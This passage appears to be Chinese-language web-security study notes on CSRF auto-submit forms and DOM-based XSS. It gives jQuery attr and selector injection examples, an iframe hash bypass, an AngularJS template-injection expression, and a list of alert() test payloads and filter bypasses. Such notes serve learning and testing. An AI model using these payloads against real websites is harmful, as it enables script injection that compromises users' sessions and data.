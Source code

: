 ```html
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>  
```

防范方法：``` <base target="_self" />``` 



**DOM-based  XSS 攻击方式**

1. 闭合某个文档的节点，然后开始写入自己的代码，注入点为document.write, innerHTML, jQuery, 

```javascript

例子1:attr 注入
目标网站：?returnUrl=javascript:alert(document.domain)
注入方式：
$(function() {
	$('#backLink').attr("href",(new URLSearchParams(window.location.search)).get('returnUrl'));
});



例子2:选择器执行
目标网站：$(window).on('hashchange', function() {
	var element = $(location.hash);
	element[0].scrollIntoView();
});
注入方式：
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">（针对#后面不允许出现HTML代码的限制，可以用iframe绕过）

```

2. 利用AngularJS库，语法特性执行注入  标签内含有ng-app, 当一个指令被添加到HTML代码中时，你可以在双花括号内执行JavaScript表达式 AngularJs语法特性

```javascript
{{$on.constructor('alert(1)')()}}
```



**知识点**

1. 其他测试

```
<a href="javascript:alert(1)">  点击触发
<img src=1 onerror=alert(1)> 直接触发
{"searchTerm":"\\"-alert(1)}//", "results":[]} json 逃逸
<img src=1 oNeRrOr=alert`1`> 绕过
```

2. 万能测试XSS漏洞：```"/></text><script>alert(1)</script>```
